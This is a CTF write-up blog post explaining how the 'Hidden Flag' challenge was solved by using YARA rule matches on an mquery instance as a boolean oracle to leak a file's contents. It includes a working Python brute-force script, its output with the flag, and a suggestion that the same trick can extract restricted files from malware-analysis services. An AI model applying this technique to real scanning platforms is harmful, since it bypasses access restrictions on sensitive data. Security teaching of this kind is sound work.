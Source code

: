 ```yaml
---
title: CONFidence Teaser CTF – Hidden Flag
author: Megabeets
type: 
date: 2020-03-15T10:57:56+00:00

categories:
  - Writeups
tags:
  - CONFidence
  - CTF

---
```

During CONFidence Teaser CTF, one specific task caught my interest. Not because it was hard or complicated &#8211; it wasn&#8217;t, but because the concept behind it was interesting and relevant to my day-to-day work as a malware researcher. 

In this short article, I will show a **highly esoteric**, not to say **trivial**, concept in which you can leak the content of &#8220;sensitive&#8221; files on systems where scanning the files with Yara is allowed, but downloading the files is not possible. Not only that I&#8217;ll show how it was used, as an **intended solution**, to solve the &#8220;Hidden Flag&#8221; challenge on the CTF, but will also demonstrate how it can be used to retrieve the data of TLP;RED, or un-downloadable files on premium services such as Hybrid-Analysis, where the major limitation is the bandwidth.

Let&#8217;s not move too fast and start from the beginning, the CTF challenge. On &#8220;Hidden-Flag&#8221;, the most solved challenge in this CTF, we are given an online instance of [mquery][1], a &#8220;YARA malware query accelerator&#8221;. In other words, the system lets you run your Yara rules on a repository of files, very fast. The flag, as it seems, exists in the content of a file found the corpus of files that are indexed and scanned by _mquery_. As a malware researcher, and as a [cert.pl][2] old fanboy, I was already familiar with _mquery_ and experienced with using it. 

The initial idea was to extract the flag using boolean queries of Yara rules. To prove that this concept really works, I started from this sample rule:

```
rule test {
  strings:
    $flag = "p4{"
  condition:
    $flag
}
```


And indeed, this simple rule showed that the concept is potentially possible and we can start slowly retrieving the flag. 

</p> <figure class="wp-block-image size-large">

<img src="./mquery-screenshot.png" /> </figure> 

In order to retrieve the rest of the flag, we can start to slowly &#8220;brute force&#8221; it character by character, hoping there will not be any &#8220;brute force&#8221; mitigation or similar limitation. Since I am familiar with the project, I know it has a REST API we can use for our help. For those of you who aren&#8217;t familiar, can figure this out from the [tests][3].

And indeed, we can quickly write a script to brute force the flag character by character.

```
import string
import requests

QUERY_URL = "http://hidden.zajebistyc.tf/api/query/high"
MATCHES_URL = "http://hidden.zajebistyc.tf/api/matches/{}?offset=0&limit=50"

def request_query (query):
    res = requests.post(QUERY_URL, json={"method": "query", "raw_yara": query})
    res.raise_for_status()
    query_hash = res.json()["query_hash"]
    res = requests.get(MATCHES_URL.format(query_hash))
    if res.json()["job"]["status"] == "done":
        return res


# Define a rule tempplate

test_yara = """
rule find_flag {{
    strings:
        $flag = "{0}"
    condition:
        $flag
}}
"""

# Generate a list of potential characters
potential_chars = "-_}"+string.ascii_lowercase+string.digits+string.ascii_uppercase+"@!"  

# Start from the known prefix of the flag

flag = "p4{"

while True:
    print("[+] Found:",flag)
    for c in potential_chars:
        res = request_query(test_yara.format(flag + c))
        if len(res.json()["matches"]) > 0:
            flag += c
            break
    if c == "}":
        break

print("[+] Flag:", flag)

# flag is "p4{ind3x1ng-l3ak5}"
```


Let&#8217;s run the script and see the results come quickly:

```
$ python3 solution.py

[+] Found: p4{
[+] Found: p4{i
[+] Found: p4{in
[+] Found: p4{ind
[+] Found: p4{ind3
[+] Found: p4{ind3x
[+] Found: p4{ind3x1
[+] Found: p4{ind3x1n
[+] Found: p4{ind3x1ng
[+] Found: p4{ind3x1ng-
[+] Found: p4{ind3x1ng-l
[+] Found: p4{ind3x1ng-l3
[+] Found: p4{ind3x1ng-l3a
[+] Found: p4{ind3x1ng-l3ak
[+] Found: p4{ind3x1ng-l3ak5
[+] Flag: p4{ind3x1ng-l3ak5}
```




 [1]: https://github.com/CERT-Polska/mquery
 [2]: https://www.cert.pl/en/
 [3]: https://github.com/CERT-Polska/mquery/blob/master/src/tests/test_api.py